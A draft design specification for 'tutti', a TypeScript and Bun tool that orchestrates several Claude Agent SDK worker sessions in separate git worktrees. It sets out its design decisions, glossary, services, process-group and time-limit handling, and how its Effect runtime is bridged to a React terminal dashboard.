

# tutti: specification

A TypeScript port of orchestra. It keeps orchestra's concepts and drops its dependence on terminal multiplexers.

| | |
|---|---|
| Status | Draft 2, 2026-10-16 |
| Port of | orchestra v0.7.7 (Go), github.com/noesis-sol/orchestra |
| Behavioural reference | orchestra v0.7.7's `README.md` and `docs/*.md`: wherever this spec says *as orchestra*, those documents are the authority |
| Checked against | `@anthropic-ai/claude-agent-sdk` 0.3.301 (its type definitions `sdk.d.ts` and README); `effect` 4.0.5 and `@effect/platform-bun` 4.0.5 (their sources); `@opentui/core` and `@opentui/react` 0.7.0 (docs and open issues); Bun's docs |
| Product name | **tutti** (Italian, "all together"). npm has an unrelated, inactive `tutti` package (0.0.10, a browser-testing tool), so the npm name is scoped (§12) and the command is `tutti` |

### Changes in draft 2

A review against the packages themselves found errors and gaps in draft 1.

- **Worker options corrected** (§4.1):
  - `env` replaces the environment, so tutti spreads `process.env`.
  - The permission mode is set explicitly (auto, D11).
  - MCP strictness is the SDK's `strictMcpConfig`.
  - Session IDs are assigned before the session starts.
  - Project settings come from the main checkout (`projectConfigRoot`).
  - tutti's own messages are sent `client_composed`.
- **New sections and rules:**
  - usage limits (§4.12); the login, the account and an API key (§4.13); when sessions are closed (§4.8)
  - your steering beside the automation (§4.3)
  - several requests per worker, and protection against approving the wrong one (§4.5)
  - answering without a dashboard with `tutti answer` (D20); a run that waits for you on screen (D19)
  - untrusted text made safe to display (§7.10); signals and process groups (§3.2)
- **Corrected:**
  - resumed sessions keep their system prompt (§4.8); `system/init` arrives each turn (§4.2)
  - restrictions are enforced with `tools` and hooks, not `canUseTool` (§4.10, §6.3); the interview files through tools of tutti's, the breakdown's (§4.10, §4.14)
  - Ctrl+Z is disabled (D18)
  - Effect 4 module names (§3.1), Bun's retry flag (§13), the colour minimum (§7.7), coexisting with orchestra (§11)
- **Resolved:** draft 1's Q4 (checking the login) and Q6 (embedding Claude Code).
- **Added after the review:** the ticket state machine (§5.1): the phases a ticket passes through before it is merged and closed, and the transitions between them. Also colour schemes. orchestra's is carried over exactly as the default, and others can be chosen in the settings or written as files (D21, §7.11).

---

## 0. Decisions made

These were settled with the maintainer while writing this spec. Each one shapes a section below.

| # | Decision | Chosen | Consequence |
|---|---|---|---|
| D1 | Language and runtime | TypeScript on **Bun** (≥ 1.3.14). Milestone 0 first proves the Agent SDK under Bun | OpenTUI is Bun-first. The SDK documents Node 18+ and also documents `bun build --compile` (§12). Node is the fallback if a spike fails |
| D2 | Effect | **Effect** for the whole program: services, layers, fibers, scopes, schedules, Schema. Effect wraps the Agent SDK rather than replacing it ("option A") | Every external effect goes through a typed service with a test layer |
| D3 | Workers | **Agent SDK sessions** (`@anthropic-ai/claude-agent-sdk`, streaming input mode), headless. tutti draws their view itself | No Herdr, tmux or cmux; no screen reading and no prompt pasting; exact state from the SDK |
| D4 | Process model | **Single process**. tutti's process owns every worker | Quitting ends the workers' turns. Their sessions are saved and the next run resumes them (§4.8) |
| D5 | Compatibility | **Same concepts, clean break** | New file layout (`.tutti/`), settings schema, event schema, CLI flags and branch names. No carry-over from orchestra runs |
| D6 | UI | **OpenTUI** (`@opentui/core` and `@opentui/react`, 0.6.x) with React 19.2 | Alternate screen, flexbox layout, OpenTUI's own mouse handling and test renderer |
| D7 | Layout | **Today's dashboard and cards**. A worker's output is shown only when you select its card | Selecting a card opens a full-screen worker view: a transcript tutti draws, plus a composer |
| D8 | Attention | A permission request or a worker's question is **answerable on its card or in its view**. Nothing changes view by itself; a notification fires | Requests come through the SDK's `canUseTool` and wait in tutti's attention queue (§4.5) |
| D9 | Mouse | **Single clicks plus keys**. Every click has a key; no double-click meanings | Cards, buttons and tabs are click targets. Text is copied with OpenTUI's selection |
| D10 | Organs | **`effect/ai` `LanguageModel`, provided by a layer over the Agent SDK** (subscription login). An API-key provider can be swapped in by layer | Organs use `LanguageModel.generateObject` with Effect Schema |
| D11 | Worker permissions | **Auto mode**: workers start in `permissionMode: 'auto'`, with your Claude Code settings loaded. Claude Code's classifier approves or denies each tool call; you're asked through `canUseTool` only when it can't decide, or when a rule says to ask. A removal the built-in safety check holds is denied without asking | Few requests reach you. Denials by the classifier and the safety check are logged and tallied for the reviewer (§4.5). `bypassPermissions` is never used |
| D12 | Distribution | **Signed single binaries plus `tutti update`**, as orchestra does | `bun build --compile` for darwin and linux, arm64 and x64, with Claude Code embedded as the SDK's README describes (§12) |
| D13 | Platforms | **macOS and Linux**, in any terminal emulator, inside tmux or over ssh included | No Windows |
| D14 | Repository | **A new product under a new name**: a new repository; orchestra stays as it is | tutti starts at 0.1.0 and reaches 1.0.0 at parity (§14) |
| D15 | Ctrl+C | **Asks**: `s` stop after the running tickets, `q` quit now, `Esc` cancel. A second Ctrl+C quits now | Replaces orchestra's "Ctrl+C stops at once, leaving workers running" (§4.8, §7.4) |
| D16 | Effect version | **Effect 4** (4.0.x, current stable). The AI modules come from `effect/ai` (core), not the v3-era `@effect/ai` 0.x packages | The v3 docs linked during design (`effect.website/docs/v3/ai`) describe the older line. **Confirm this choice** (§15, Q1) |
| D17 | Pre-1.0 and beta dependencies | **Allowed.** tutti is a pet project. OpenTUI (0.x), `effect/ai` (marked unstable), the Agent SDK (0.x) and similar young packages are fine to build on. If tutti succeeds, it grows with them | Their maturity is not a reason to avoid them, wrap them defensively or delay a feature. Breaking upgrades are expected, ordinary work. The mitigations in §15.2 are about keeping such upgrades cheap, not about avoiding the packages |
| D18 | Ctrl+Z | **Disabled.** Suspending tutti would freeze the run loop and every worker's output | Ctrl+Z shows a toast; SIGTSTP is ignored (§7.4) |
| D19 | Requests at the end of a run | **With a dashboard, the run waits for you.** A run with nothing left but workers waiting on you stays open; `q` ends it, suspending them. Plain mode ends as usual | §5, item 14 |
| D20 | Answering without a dashboard | **`tutti answer`.** Open requests are listed in `.tutti/run/attention/`; `tutti answer` (from you, a script or an agent) answers them | §4.5, §8.1 |
| D21 | Colours | **A colour scheme, set in the settings.** tutti is as colourful as orchestra's Bubble Tea dashboard. Its colours come from a colour scheme, chosen in `.tutti/settings.json` or the user config. The default, `orchestra`, is orchestra's colour scheme exactly: the same colours, each with its light and dark variant, meaning the same things. Other schemes are JSON files a project or a person adds | §7.11: the roles a scheme gives colours to, where each role goes, how a scheme is chosen and how one is written |

---

## 1. What tutti is

tutti works through a [Beads](https://github.com/gastownhall/beads) backlog with several Claude workers side by side, each in its own git worktree. It rebases, checks and fast-forwards each finished ticket, one at a time, into the branch you started on. A live terminal dashboard shows the run, and you can open any worker to read what it is doing or talk to it.

What changes from orchestra:

- **There are no multiplexer tabs.** Workers are Agent SDK sessions owned by tutti's process. Their "tab" is a view tutti draws, which you open by selecting the worker's card.
- **Worker state is exact.** It comes from the SDK's messages (`session_state_changed`, `result`, task events, rate-limit events) and from the `canUseTool` callback, not from hooks writing files or from reading a screen. A whole class of timeouts and recoveries goes away (§4.3).
- **The workers' permission requests and questions are answered in tutti**: on the worker's card, in its view, or with `tutti answer`.
- **The program runs in any terminal.** Nothing has to be installed beyond `git`, `bd` and a Claude login (§4.13).

### 1.1 Goals

1. Behavioural parity with orchestra v0.7.7 in everything that isn't about Herdr, tmux, cmux, screen reading or other agent kinds. The parity matrix (Appendix A) lists each feature and what becomes of it, and what orchestra changed since, up to 0.9.1 and its unreleased changes, each with tutti's ticket for it.
2. One process, one binary, any terminal on macOS or Linux.
3. Every external effect (bd, git, the SDK, the filesystem, the clock, the terminal) behind an Effect service with a test layer, so whole runs are tested deterministically with `TestClock` and fakes.
4. A dashboard as legible as orchestra's, plus a worker view and attention handling that orchestra delegated to its terminals.

### 1.2 Non-goals

- Other agent kinds (`--agent codex` and the like). Workers are Claude, through the Agent SDK.
- Detaching from a run and re-attaching later (D4). The design keeps the run loop behind a command and state interface (§3.5), so a daemon could be added later without a rewrite.
- Suspending tutti with Ctrl+Z (D18).
- Windows (D13).
- Reading or adopting orchestra's run state (`.orchestra/run/state.json`, its worktrees left running). Finish orchestra runs with orchestra. tutti reads only Beads, which both share (§11).
- Drawing Claude Code's own interface. The worker view is tutti's design (§7.5, branding).

---

## 2. Concepts (glossary)

These are unchanged from orchestra unless marked otherwise.

| Term | Meaning |
|---|---|
| **Run** | One invocation of `tutti` on a repository: from startup checks to its exit code. One at a time per repository (the run lock). |
| **Base** | The branch the main checkout is on when the run starts. Finished tickets land here. |
| **Ticket** | A Beads issue. Epics are never dispatched; their children are the work. |
| **Worker** | An Agent SDK session working on one ticket in its own worktree (`<worktrees>/<id>`, branch `tutti/<id>`). *Changed:* it is no longer a terminal tab, and its session may be closed and resumed during a run (§4.8). |
| **Organ** | A one-shot adviser (triage, predictor, reviewer, scout). An `effect/ai` structured call that has no tools (the scout has read-only ones) and only answers. Organs never change a ticket or the code. |
| **Footprint** | The files, functions and area labels a ticket names, plus the files its worktree has changed. Two overlapping tickets don't run side by side. |
| **Merge queue** | Finished tickets merge one at a time, in the order they finish: rebase, setup if needed, merge check, fast-forward. |
| **Solo** | A ticket labelled `solo` runs alone. |
| **Held back** | A ready ticket waiting for something besides a free slot: an overlap, its subtickets, a blocker or source not merged yet, a solo ticket. |
| **Set aside** | Deferred, or left for review (`CHECKS_FAILED`, `MERGE_CONFLICT`, …). |
| **Question** | A ticket labelled `human` that blocks a worker's ticket. The run goes on. With `--auto-answer` (§8.2), tutti answers one filed during the run with the option it recommends. |
| **Attention request** | *New.* Something a worker is waiting on you for right now: a permission request (`canUseTool`) or a question it asked with `AskUserQuestion`. It is not a Beads ticket. It is answered on the dashboard, in the worker's view, or with `tutti answer` (§4.5). |
| **Steered worker** | *New.* A worker you have messaged or interrupted. tutti sends it nothing automatically until you release it (§4.3). |
| **Phase** | *New as a named concept.* Where a ticket is in the run: `Queued`, `Working`, `ToMerge`, `Merging`, `Resolving`, `Fixing`, `Done` and the rest. Phases change only through the transitions of the ticket state machine (§5.1). |
| **Hand-back** | Sending a rebase conflict, or a check that fails on the branch before it merges, back to the ticket's worker to fix. |
| **Carry-over** | The workers a run leaves, saved in `.tutti/run/state.json` and taken up by the next run. *Changed:* they are taken up by resuming their sessions, never by adopting a live process. |
| **Environment hold** | Workers keep failing at once, whatever ticket they have. The run holds, probes the machine, and goes on or ends. |
| **Usage-limit hold** | *New.* The Claude account's usage limit is reached. No new tickets until it resets (§4.12). |
| **Full check** | `check_full`, run once after a run that ended by itself and merged something. |
| **Scope** | `--ticket <id>`: that ticket and its descendants only. |

---

## 3. Architecture

### 3.1 Stack

| Concern | Choice | Version at writing | Notes |
|---|---|---|---|
| Runtime | Bun | ≥ 1.3.14 | OpenTUI's floor. Also the bundler, test runner and `--compile` |
| Language | TypeScript | current release; `strict`, `exactOptionalPropertyTypes` | `jsxImportSource: "@opentui/react"` |
| Effect | `effect` | 4.0.x | Core: `Effect`, `Layer`, `Context.Service`, `Schema` (with `Schema.TaggedError`), `Stream`, `Queue`, `Ref`, `SubscriptionRef`, `Semaphore`, `FiberSet`, `ManagedRuntime`, `FileSystem`, `Path`, `JsonSchema`. Entry points: `effect/process` (`ChildProcess`, `ChildProcessSpawner`) for every external command; `effect/ai` for the organs; `effect/cli` for parsing flags; `effect/testing` (`TestClock`) for tests. Effect 4 has no `@effect/platform` package and no `Supervisor` module |
| Platform | `@effect/platform-bun` | 4.0.x | `BunRuntime.runMain`, `BunServices`, `BunChildProcessSpawner`, `BunFileSystem`, `BunPath` |
| Agent | `@anthropic-ai/claude-agent-sdk` | 0.3.x | Streaming input mode; pinned exactly, since its protocol tracks Claude Code's |
| UI | `@opentui/core`, `@opentui/react` | 0.7.0 | Pinned exactly and upgraded on purpose: still 0.x, and 0.6.0 broke custom renderables. 0.7.0 reads a node's hooks from its class once, at construction; tutti makes no renderable class, and the hooks it gives, `renderAfter` and `onSizeChange`, are assignments and props, which 0.7.0 keeps |
| UI framework | React | ≥ 19.2 | Required by `@opentui/react`. Always its production build outside the tests (below) |
| Markdown after the dashboard | a terminal Markdown renderer | chosen in M3 | The run report is printed after OpenTUI has gone (§7.1) |
| Tests | `bun test --retry`, `TestClock`, `@opentui/react/test-utils`, `fast-check` | | §13 |
| Lint and format | Biome | | Plus `tsc --noEmit` |

**React's production build.** tutti runs React's production build in every way it runs. React 19.2's development build (`react-reconciler` 0.33) records a `performance.measure()` per component render ("Performance Tracks"), and Bun keeps every entry: 16 cards at 10 Hz grew memory by about 10 MB a minute, without bound and beyond the GC's reach (`docs/spikes/05-opentui-soak.md` § 2). Bun doesn't set `NODE_ENV`, so tutti defines it as `"production"` at parse time, never in the environment its children inherit:

- `bunfig.toml`'s `[define]` does it for every `bun` run from the checkout (`bun src/main.ts`) and every `bun build` from there. Bun reads `bunfig.toml` from the current folder only: from another folder, run `bun --config=<checkout>/bunfig.toml <checkout>/src/main.ts`.
- The compiled binary is built with `--define process.env.NODE_ENV:"production"` (§12). `--production` would do it too, but it also minifies.
- The npm package (§12) ships a bundle built with the same define, not `src/`: a `bin` run from the user's project never reads tutti's `bunfig.toml`, and a shebang's `env -S` arguments are quoted differently from one OS to another.
- The tests keep the development build. `bun test` reads `bunfig.toml` too, so `scripts/test.sh` defines `process.env.NODE_ENV` as `"test"` over it: `@opentui/react/test-utils` needs `act`, which React's production build lacks. A test fails under a bare `bun test` to say so.
- `test/react-build.test.ts` checks the reconciler each of these loads.

Several of these are pre-1.0 or marked unstable (OpenTUI, `effect/ai`, the Agent SDK). That is accepted (D17). The project tracks their releases and takes their breaking changes as they come; pinning exactly makes each upgrade a deliberate, tested step, not a reason to stay behind.

### 3.2 Process model

One Bun process per run (D4):

```
tutti (Bun process)
├── CLI: effect/cli flags, settings → AppConfig
├── Effect ManagedRuntime (layers below)
│   ├── RunLoop ── fibers: scheduler, ready poll, merge queue, triage, predictor, per-ticket fibers
│   ├── AgentHost ── one SDK Query per open worker session (each spawns one `claude` subprocess)
│   ├── Attention ── open requests; the screen and `.tutti/run/attention/` answer them
│   ├── Organs ── effect/ai LanguageModel ← AgentSdkLanguageModel layer
│   ├── Beads, Git, Checks, Worktrees, RunLock, Store, Transcripts, UsageLimits, Log, EventStream, Notifier
│   └── RunState: a SubscriptionRef<RunView> the UI reads; a Queue<UiCommand> the UI writes
└── OpenTUI renderer + React tree (alternate screen), or the plain printer
```

- **Workers are subprocesses in their own process groups.** Each worker's `claude` is started through the SDK's `spawnClaudeCodeProcess` option, detached into a process group of its own. Every external command (git, bd, checks, setup) is started the same way, as orchestra starts its commands.
  - The terminal's signals then reach tutti alone: SIGINT from Ctrl+C in plain mode, SIGHUP when the terminal closes, SIGTSTP. tutti decides what happens to the workers (§4.8, §7.4).
  - Without this, a Ctrl+C in plain mode would interrupt every worker, git command and check before tutti could act.
- **Workers run at a lower CPU priority.** A worker's `claude` is lowered to nice 10 (`workerNice`) as it is spawned, never raised where tutti itself runs lower, so its Bash commands and their checks inherit it. tutti reads the priority back as it sets it, and again 100 ms later (`lowerRecheck`), setting it again where it was raised back. Where the machine refuses it or keeps raising it back (on GitHub's macOS runners, where the check runs at nice -10, a worker's shell was found at -10 now and then, its cause not yet seen: the CI run that carried this message, 40663358319, passed with nothing said, tutti-djtt), the worker runs at whatever priority it is left at, at worst tutti's own, and tutti says why once a process on the session's stderr (the transcript's stderr.log): the error's code and message, the pid, and the priority before and after. The merge check, which holds the merge queue, and the login and usage probes, the organs and the interviews run at tutti's own priority. The merge check slowed under the workers' load: 79 s on an idle machine, 143 s with 4 workers, a median 343 s (p90 720 s) with 4 workers and a second check (runs since 2026-10-24). A synthetic measurement beside a live run was inconclusive (tutti-ejkt.12); it is kept, low in risk, and the check records of 4-worker runs measure it. Priority doesn't help where memory pressure is the cause.
- **Memory.** The SDK's hosting guide says to plan on "1 GiB RAM per agent as a starting point". tutti keeps a session open only while the ticket needs it (§4.8), so the count of live subprocesses stays near `concurrent`.
- **Ending a session.** The SDK ends a session by closing the subprocess's stdin and, after about 2 seconds of grace, aborting it.
  - When tutti is killed (`kill -9`), each worker's stdin closes with it. An idle worker reads that EOF and ends, within a second. A busy one reads it only once its turn is over, which can be many minutes of editing and committing with no tutti (docs/spikes/02-sdk-lifecycle.md §4). The SDK's own guard (`process.on("exit")`) doesn't run on SIGKILL, and neither the SDK nor the CLI has a parent-death or stdin-EOF option.
  - **So each worker has a reaper.** `spawnInOwnProcessGroup` also starts `/bin/sh -c 'read _; kill -TERM -"$1"; …' reaper <claude's pgid>`, detached into a process group of its own (a terminal's signals don't reach it), its stdin a pipe from tutti. However tutti ends, that pipe closes, `read` returns, and the reaper sends SIGTERM to `claude`'s whole group, and SIGKILL if the group is still there 10 seconds later. In the spike the Bash commands went in 0.1 s and `claude`, after its graceful shutdown, in 2.9 s.
  - When a worker ends normally, tutti kills its reaper. The reaper holds no reference to tutti's event loop.
- **A worker's commands go with it.** Claude Code's process group isn't all of a worker: Claude Code 2.1.301's Bash shells are detached, each leading a group of its own, and only Claude Code's own shutdown stops them. Three paths kill Claude Code outright without that shutdown: the SDK's SIGKILL 5 s after its SIGTERM, tutti's kill when a closed session hasn't exited within `closeLimit` (10 s), and a reaper's SIGKILL after its grace. Each first stops Claude Code's group (SIGSTOP, so it starts nothing more), reads the process table (`ps -A -o pid=,ppid=,pgid=`), kills the groups of the group's members' descendants, never tutti's own, and then kills the group (`src/services/processTree.ts`'s `killTree`; the SDK's is through the `kill` of the ChildProcess `spawnInOwnProcessGroup` returns, the reaper's is its `tree` mode, the same walk in `awk`). Once Claude Code has exited its shells are orphans, adopted by PID 1, so the walk is done while it is still there.
  - The next run resumes those sessions from their transcripts (§4.8).

### 3.3 Services

Each service has a live layer and a test layer. Names are illustrative. Errors are tagged (`Schema.TaggedError`), never strings, and code inspects them by tag.

| Service | Responsibility | Errors (tags) | Test layer |
|---|---|---|---|
| `AppConfig` | Flags, then environment, then `.tutti/settings.json` and the user config, resolved once into one value, the colour scheme included (§8, §7.11) | `SetupProblem` (a list) | A literal value, resolved as a run with no flags, variables or config files would be, in the repository and with the settings it is given |
| `Beads` | Every `bd` call (`ready`, `show`, `list`, `update`, `close`, `label`, `dep`, `create`, `human`, metadata), each with a time limit. Output decoded with Schema. bd answers an ID it has no issue for with one whose ID starts with it, so an answer by another ID is no such issue, and each write, and each issue a new one links to, is shown first: nothing is written for a deleted ticket | `BeadsFailed`, `BeadsTimedOut`, `BeadsUnreadable` | An in-memory backlog |
| `Git` | Worktrees, rebase (and `rebase --abort`), merge-base, fast-forward, log, status, diff, `ls-files`, branch | `GitFailed{op,stderr}`, `GitTimedOut`, `RebaseConflict{files}` | In-memory repository, its commands' names, kinds and arguments and `resetBranch`'s rev-parse step the live layer's (`gitOps`, `resetTo`), and real git in a temp folder for the git-subject tests |
| `GitWriter` | One writer at a time in the main repository (a `Semaphore(1)`) | none | The same |
| `Worktrees` | A ticket's worktree and branch, its `.tutti/run/` files, `info/exclude`, the symlink guard (`RUN_FILES_OUTSIDE`) | `RunFilesOutside`, `BadTicketId` | Temp folders, reused or fresh as the live layer counts them (`found`) |
| `ClaudeCode` | The one port every Claude Code session tutti opens goes through, a worker's, the environment probe's and the interview's (`AgentHost`), the login probe's (`Account`), the usage probe's (`UsageProbe`) and an organ's: each says what its session is (the SDK's options without the launch), what it is sent (one text, a stream of messages, or its inbox, whose messages `send` pushes until the session closes) and how it is billed (as workers, or as the login probe, without the key), and the adapter launches it one way: the environment (§4.13), the Claude Code to run, the spawn into a process group with its stderr's end kept (§3.2), the abort, and its close with its scope, Claude Code's group killed if it doesn't exit in time. The Query's control requests the SDK's types lack are read only there. A session's kind (`SessionKind`: `Worker`, `Probe`, `Interview`) decides its prompt, servers and options | `LaunchFailed` (no Claude Code to run), `SessionFailed{reason, stderr}` | The live adapter over a stand-in for the SDK's `query()`; and scripted sessions (`src/testing/ClaudeCode.ts`), each playing a list of steps: SDK messages, each taken in by its reader before the next step plays, hook, `canUseTool` and `onElicitation` calls through the session's options, its initialize's answer, sends taken as the CLI takes them, interrupts and their receipts, recording what it was sent |
| `AgentHost` | Starting, resuming, messaging, interrupting, closing and ending worker sessions. Exposes each worker's `WorkerState` stream (§4) | `AgentStartFailed{reason, startupFailureReason?}`, `AgentGone`, `AgentProtocol` | The live host over scripted `ClaudeCode` sessions, in a test `FileSystem` where every folder is there, so a scenario's sessions are started, read, checked, interrupted and closed by the code a run's are; it records what it was sent |
| `Account` | The login probe: account, billing, effective permission mode, settings errors (§4.13) | `NotLoggedIn`, `SettingsUnreadable` | A literal account |
| `Attention` | Open permission requests and questions, their answers (from the screen or `tutti answer`), run-scoped allow rules, time limits (§4.5) | none | The same, plus a policy that answers automatically |
| `UsageLimits` | Rate-limit events, the usage-limit hold, waking workers at reset (§4.12) | none | Scripted events |
| `UsageProbe` | Asks the account, with one tiny model turn, whether the held usage limit still refuses, before the hold lifts on the clock (§4.12) | none (an `Unanswered` answer) | The live probe (`probeWith`), its session playing scripted answers as SDK messages |
| `Transcripts` | tutti's own log of each worker's SDK messages, and reading it back (§4.4) | none | The live service (`makeTranscripts`, which checks the worker's ID) over files in memory |
| `Organs` | Triage, predictor, reviewer, scout, written against `LanguageModel` (§6) | `OrganFailed{subtype}`, `OrganRefused`, `OrganTimedOut` | The live `LanguageModel` (`make`), its session playing canned answers as SDK messages, with the `OrganCost` its calls go to |
| `Checks` | Runs `setup`, `check_fast` and `check_full` within their time limits; keeps the whole output, the lines that say what failed, `FLAKY:` lines and `SUITE:` names | `CheckFailed`, `CheckTimedOut` | Scripted results |
| `RunLock` | `flock` on `<git-common-dir>/tutti.lock` and on `orchestra.lock` (§9.2) | `AlreadyRunning{holder}` | The lock files' texts in memory, as live writes and reads them |
| `Store` | `.tutti/run/state.json` (carry-over) and per-ticket metadata. Writes are serialised through one fiber and atomic (temporary file, then rename) | `StoreUnreadable` | In-memory |
| `Log` | `.tutti/tutti.log`, for people. A happening's line and its record in the event stream are written together (`writeWith`), so the two give happenings in one order | none | The live log (`Log.layerOn`) over a file that keeps nothing, its lines captured |
| `EventStream` | `.tutti/run/events.jsonl`, for scripts (§10) | none (it warns once) | Captured records |
| `Notifier` | Desktop notifications (§7.9) | none | Captured |
| `Clock` | Effect's `Clock`: every duration in the loop goes through it | | `TestClock` |
| `Tty` | Whether stdin and stdout are a TTY, `TERM=dumb`, the size, colour depth (named so as not to clash with Effect's `Terminal`) | | Fixed, read from its streams and variables as live (`fromEnvironment`) |

**Time limits.** Every external command goes through `ChildProcess` (`effect/process`), with a scope (its own process group, killed on interruption) and a time limit. The limits are orchestra's: 30 s for a read, 2 min for a git write or a `bd` update, and the check limits from settings. A time limit kills the process group itself when it expires. It doesn't rely on interrupting the fiber (§3.4). A command is stopped as a worker is (§3.2), its whole process tree, not its group alone (`src/services/exec.ts`'s `stopGroup`): tutti lists the tree, sends SIGTERM to the group, and once the grace (2 s) has passed with the group, or a group of its members' descendants, still there, kills the tree (`killTree`) with the groups of that first listing too. `bun test --parallel` runs each test worker in a process group of its own, apart from its coordinator, so a SIGKILL of the group alone that reaches the coordinator before it has handled its SIGTERM leaves every worker running, adopted by PID 1 and out of the tree, and a worker spinning in synchronous code then never exits: two left that way spun at 100% CPU each for 3 days 17 hours (tutti-gr4z.1). A kill -9 of tutti takes the time limit with it, so a command's group gets a reaper as a worker's does (§3.2), in its `tree` mode, the tree listed before its SIGTERM too, and doesn't run on unwatched. Once the command's leader has exited and its group has been killed, tutti waits at most a grace (`LeftoverOutputGrace`, 2 s) for its output to close: a process that left the group (setsid, a detached spawn with inherited stdio) can hold the pipes open for as long as it runs, so tutti then stops reading and returns the exit code with what it read, its stderr saying that a process the command left running held the output open. A check, setup command or git hook that leaves a server running this way can't hold the merge queue, nor outlive its time limit.

**Time awake.** tutti's time limits count the time the machine is awake, not the time it sleeps (tutti-dhyy): a command's (a check's, a setup's, bd's and git's reads and writes), a ticket's (`--ticket-limit`, `LONG_RUNNING`), the idle grace before `PAUSED`, a hand-back's, an organ's, a new session's start and first turn, an interrupt's answer and the environment probe's. A timer counting wall time fires as the machine wakes, so a check that ran a minute before the machine slept half an hour failed `did not finish within 30m`, and bd calls at the wakes `took longer than 30s`. A limit that expires across a sleep is extended by the sleep (`sleepAwake`, `timeoutAwake` in `src/services/Wake.ts`). The usage limit's reset times are wall-clock instants and stay as they are; a check record's `seconds` is from its start to its end, sleep and all. Bun gives no clock known to stop while the machine sleeps on both macOS and Linux (its timers on macOS count the sleep, as `CLOCK_MONOTONIC` goes on while asleep there, and it doesn't say what `performance.now` and `process.hrtime` read), so the run's `Wake` keeps a beat of its own: every second it reads the wall clock, and a gap between two readings 15 s longer than the beat (`sleepGap`) is a sleep, whichever clock the timers went by; whoever asks how long the machine slept looks first, so a limit whose timer fires at the wake, before the beat's, sees the sleep too. A process stopped or an event loop held as long reads as a sleep, as does a wall clock set forward; neither is counted against a limit either. `Wake` is a `Context.Reference` that counts no sleep unless the run's layers give the live one, so commands outside a run count wall time; its test layer (`src/testing/Wake.ts`) reports a sleep and moves the `TestClock` over it. The run says each sleep it notices (§5 item 15), on macOS with its cause. Keeping the machine awake (§8.2) prevents idle sleep only: a closed lid still sleeps a laptop, so a run kept awake can still sleep (tutti-abem).

**Files written whole.** Every file tutti writes whole (`state.json`, its registration among the machine's runs, `info/exclude`, the run's report, the user's `.claude.json`, init's setup and the README's section) goes through one writer, `writeFileAtomic` (`src/services/atomicFile.ts`). It writes through a link to the file the link points at, so a file a dotfile manager links stays a link; keeps the file's mode, or takes the one it is given; writes a temporary file beside the file, of a name no other writer picks, syncs it and renames it over the file, then syncs the folder; and removes the temporary file where it fails. A crash leaves the old file or the new one, never a mix. init's setup stages these writes and puts them in as one (§ 8.3), with the same pieces. A file tutti adds to (`.gitattributes`, `info/exclude`) that it can't read, other than one not there, fails the write rather than be rewritten without what it held.

### 3.4 Concurrency

- **Fibers.** The run is a scoped Effect. It forks the scheduler, the ready poll (every 30 s), the merge queue consumer, the triage worker, the predictor and one fiber per running ticket, all in `FiberSet`s owned by the run's scope. Interrupting the run scope interrupts them all, and finalizers end the workers (§4.8). What the Agent SDK calls back into tutti, `canUseTool`, `onElicitation`, the hook callbacks and the in-process MCP servers' tool handlers, runs as fibers of a `FiberSet` in its session's scope (`src/agent/callbacks.ts`), not as root fibers: closing the session interrupts them, a request still open withdrawn. Both MCP servers' handlers follow one rule: a call stops with its abort signal, and a failure or defect is its refusal.
- **The merge queue** is a `Queue<FinishedTicket>` with one consumer. Only the step from the fast-forward to the end of its notes is protected from interruption, so a quit never leaves the repository half merged. It runs with `Effect.uninterruptibleMask`, and each git command inside it is wrapped in `restore`, so its own time limit still applies. A plain `Effect.uninterruptible` region would turn off the commands' timeouts, which work by interruption.
  - Interrupting a rebase in progress runs `git rebase --abort`, putting the branch back.
  - Interrupting a check kills its process tree, and the ticket stays waiting to merge.
- **Shared state** is `Ref`/`SynchronizedRef`, grouped by owner as orchestra's `Loop` does (ledger, tallies, carry-over, triage queue, environment hold, usage-limit hold). Each group has one module that writes it.
- **The UI never touches run state.** It reads a projection (`RunView`) and sends `UiCommand`s (§3.5).

### 3.5 Bridging Effect and React

- **`RunView`** is an immutable projection of what the dashboard shows: totals, ticket rows, cards, open attention requests, holds and banners, the wind-down state and the end-of-run box. The hint isn't in it: each screen draws its hint from its keys (§7.3).
  - Transcripts are not in it. The worker view subscribes to its own worker's stream from `Transcripts` (§4.4).
  - Writing the projection has its own fiber, throttled to at most 30 Hz, so a burst of SDK messages costs one render. Unchanged parts keep their identity, so React memoisation works.
- **React reads `RunView`** with `useSyncExternalStore`. A fiber consuming the `SubscriptionRef`'s changes stores the latest `RunView` in a plain variable and notifies the subscribed listeners. `getSnapshot` returns that variable, the same object until the next change, as `useSyncExternalStore` requires.
  - A component selects the part of `RunView` it reads (a worker's view its card, a closed box nothing), so another part changing doesn't draw it anew. A card is memoised, and only its head, with its time and spinner, is drawn at a tick.
  - The times and spinners on screen read two tickers, one for the clock (every 3 seconds) and one for the spinner (ten times a second), each one interval for the whole screen, running while anything draws them: every spinner turns in step.
- **UI events become `UiCommand` values:** `OpenWorker{id}`, `Answer{requestId, answer}`, `SendMessage{ticket, text}`, `Interrupt{ticket}`, `Release{ticket}`, `Drain`, `Undrain`, `Quit{now}`, and so on.
  - React handlers put them in the command queue with `Queue.unsafeOffer` and never run Effects themselves.
  - A command carries IDs, and the run loop resolves them against current state. This also keeps handlers clear of OpenTUI issue #1660, where closures see stale state when input outruns React's commits.
- **A detachable daemon** would put this same `RunView` and `UiCommand` interface on a socket (§1.2).

---

## 4. Workers

### 4.1 A worker session

